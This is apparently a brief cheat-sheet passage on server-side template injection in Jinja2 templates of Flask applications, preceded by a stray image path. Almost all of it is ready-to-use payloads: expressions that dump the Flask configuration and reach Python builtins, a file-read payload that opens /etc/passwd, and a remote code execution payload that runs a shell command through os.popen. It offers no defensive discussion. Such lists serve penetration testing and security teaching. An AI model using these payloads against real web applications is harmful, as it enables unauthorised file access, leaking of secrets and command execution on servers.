 Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. We will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

```jinja2
{{ config.items() }}
```

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

## Local File Inclusion (LFI)

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
  
## Remote Code Execution (RCE)

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```